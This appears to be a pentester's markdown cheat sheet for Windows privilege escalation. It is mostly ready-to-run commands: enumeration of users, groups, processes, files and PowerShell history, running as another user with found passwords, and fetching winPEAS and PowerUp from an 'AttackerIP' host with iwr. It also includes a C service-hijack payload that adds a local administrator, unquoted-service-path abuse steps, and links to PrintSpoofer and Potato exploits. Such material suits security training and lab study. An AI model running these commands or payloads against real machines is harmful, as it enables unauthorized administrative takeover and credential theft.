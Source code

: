 # Escalation

## Info

### Targets

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

### Users

```
whoami
whoami /priv
whoami /groups
net user
get-localuser
```

### Groups

```
net localgroup
Get-LocalGroup
Get-LocalGroupMember somegroup
```

### System

Windows versions: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions#/media/File:Windows_Version_History.svg
```
ver
systeminfo
```

### Network

```
ipconfig
ipconfig /all
route print
netstat -ano
```

### Programs

Invoke-command: https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/
```
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
Format-Table -AutoSize
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Registry keys: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-childitem?view=powershell-7.3
```
Get-ChildItem -Path HKLM:\HARDWARE
```

### Processes

source: https://stackoverflow.com/questions/31374644/get-process-location-path-using-powershell
```
Get-Process
Get-Process -name someprocess |  % { $_.Path + " " + $_.Id}
Get-Process | Select-Object Path
Get-Process | Select-Object -ExpandProperty Path
Get-Process | ForEach-Object {$_.Path}
(Get-Process -Name someprocess).path
(Get-Process -Id someid).path
```

## Other searches

### Files

Find:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\*.txt -Recurse -Force
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue | select-object name
```
Display:
```
type somefile.txt
cat somefile.txt
Get-Content somefile.txt
```

### Cli escalation

With a password found in `somefile.txt`, we can use `Runas` if in a GUI (triggers a prompt):
```
PS> runas /user:somehackeduser cmd
```
or in current directory:
```
cmd> powershell.exe -Command "Start-Process cmd \"/k cd /d %cd%\" -Verb RunAs"
```

Other user authentication, password entered manually: https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script
```
Start-Process powershell.exe -Credential “domain\username” -NoNewWindow -ArgumentList “Start-Process powershell.exe -Verb runAs”
```
or password provided as a Credential object:
```
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```

### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

### WinPeas (Seatbelt, JAWS)

```
cd /usr/share/peass/winpeas/winPEASx64.exe
python3 -m http.server 8088
iwr -uri http://AttackerIP/winPEASx64.exe -Outfile winPEAS.exe

seatbelt.exe -group=all
```
Tools:
- https://github.com/carlospolop/PEASS-ng
- https://github.com/GhostPack/Seatbelt
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
- https://github.com/Marshall-Hallenbeck/compiled_binaries
- https://github.com/411Hall/JAWS

## Services

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode, State, PathName | Where-Object {$_.State -like 'Running'}
Get_ACL
icacls
```

### Hijacking

#### Manual

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user someuser somepass /add");
  i = system ("net localgroup administrators someuser /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Auto

```
cd /usr/share/windows-resources/powersploit/Privesc/
python3 -m http.server 80

iwr -uri http://AttackerIP/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

### Unquoted service path

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
icacls c:\all\the\paths
Get-UnquotedService
Write-ServiceBinary -name 'vulnerablepathservice' -path "C:\unquoted path\"
```

## Other components

### Scheduled tasks

```
schtasks /query /fo LIST /v
```

### Exploits

- https://github.com/itm4n/PrintSpoofer
- https://jlajara.gitlab.io/Potatoes_Windows_Privesc



